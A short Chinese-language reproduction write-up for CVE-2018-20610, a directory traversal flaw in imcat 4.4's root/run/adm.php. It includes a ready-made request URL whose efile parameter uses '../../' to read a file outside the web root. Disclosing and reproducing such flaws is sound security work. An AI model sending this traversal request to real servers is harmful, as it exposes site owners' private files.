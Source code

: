 # CVE-2018-20610 Imcat 4.4 敏感信息泄露

### 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中的`root/run/adm.php`文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

### 二、漏洞影响

imcat 4.4

### 三、复现过程

先在D盘创建1.txt

![](images/15890716764746.png)


Visit to `/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn `

![](images/15890716970273.png)


**参考链接**

https://github.com/AvaterXXX/CVEs/blob/master/imcat.md